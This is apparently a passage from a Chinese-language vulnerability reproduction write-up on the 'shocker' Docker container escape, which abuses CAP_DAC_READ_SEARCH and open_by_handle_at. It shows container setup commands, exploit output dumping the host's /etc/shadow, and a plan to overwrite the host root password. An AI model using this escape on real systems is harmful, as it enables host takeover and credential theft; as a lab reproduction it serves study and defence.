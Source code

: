 后续的代码就是暴力破解文件，获取到 /etc/shadow 的文件句柄和文件描述符，对文件进行操作



# 漏洞复现

使用 ubuntu 容器镜像创建两个容器，两个容器分别具备 CAP_DAC_OVERRIDE 和 CAP_DAC_READ_SEARCH

```
┌──(kali㉿kali)-[~]
└─$ sudo docker run -itd --name ubuntu_1 --cap-add=cap_dac_override --cap-drop=all ubuntu
ee0b268deab89078348096c9877d2f05aff88ae6c1e6529600eb29cc32bebf1b

┌──(kali㉿kali)-[~]
└─$ sudo docker run -itd --name ubuntu_2 --cap-add=cap_dac_read_search --cap-drop=all ubuntu
139d2ffe325670cd204744ef4db254b119c70a8da059339d873828bf7fa0b782

```

拥有 cap_dac_read_search 的容器可以调用 open_by_handle_at 进行逃逸，下面是读取宿主机的 /etc/shadow 文件

```
....
[+] Match: shadow ino=1966251
[*] Brute forcing remaining 32bit. This can take a while...
[*] (shadow) Trying: 0x00000000
[*] #=8, 1, char nh[] = {0xab, 0x00, 0x1e, 0x00, 0x00, 0x00, 0x00, 0x00};
[!] Got a final handle!
[*] #=8, 1, char nh[] = {0xab, 0x00, 0x1e, 0x00, 0x00, 0x00, 0x00, 0x00};
[!] Win! /etc/shadow output follows:
root:*:19778:0:99999:7:::
daemon:*:19778:0:99999:7:::
bin:*:19778:0:99999:7:::
...
```

只拥有 cap_dac_override 的容器不可以调用 open_by_handle_at 进行逃逸
```
// only cap_dac_override in this contaier 
root@ee0b268deab8:/# ./shocker
[***] docker VMM-container breakout Po(C) 2014             [***]
[***] The tea from the 90's kicks your sekurity again.     [***]
[***] If you have pending sec consulting, I'll happily     [***]
[***] forward to my friends who drink secury-tea too!      [***]
[*] Resolving 'etc/shadow'
[-] open_by_handle_at: Operation not permitted

```

## 漏洞利用

如果一个容器具备 cap_dac_read_search 可以通过修改宿主机的 /etc/shadow 的 root 用户密码，然后直接 root 登录到宿主机

```
┌──(kali㉿kali)-[~/containersec]
└─$ sudo docker run -itd --name=ubuntu3 --cap-add=cap_dac_read_search --cap-add=cap_dac_override --cap-drop=all ubuntu
```
